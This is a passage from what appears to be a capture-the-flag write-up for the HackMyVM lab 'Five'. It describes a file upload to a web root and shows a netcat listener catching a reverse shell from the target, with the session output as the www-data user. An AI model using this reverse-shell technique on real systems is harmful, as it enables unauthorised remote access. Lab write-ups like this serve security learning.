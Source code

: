 This time we will not specify a directory to upload to, so we can target its main folder possibly at `/var/www/html` in the backend.


![five7](/assets/img/hackmyvm/five/five7.png)
Catch the reverse shell on local machin and we are in!
```bash
┌──(root💀kali)-[/opt/hackmyv/five]
└─# nc -lvnp 1234                   
listening on [any] 1234 ...
connect to [192.168.56.3] from (UNKNOWN) [192.168.56.27] 33244
Linux five 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 04:59:41 up 37 min,  0 users,  load average: 0.00, 0.02, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Five

```
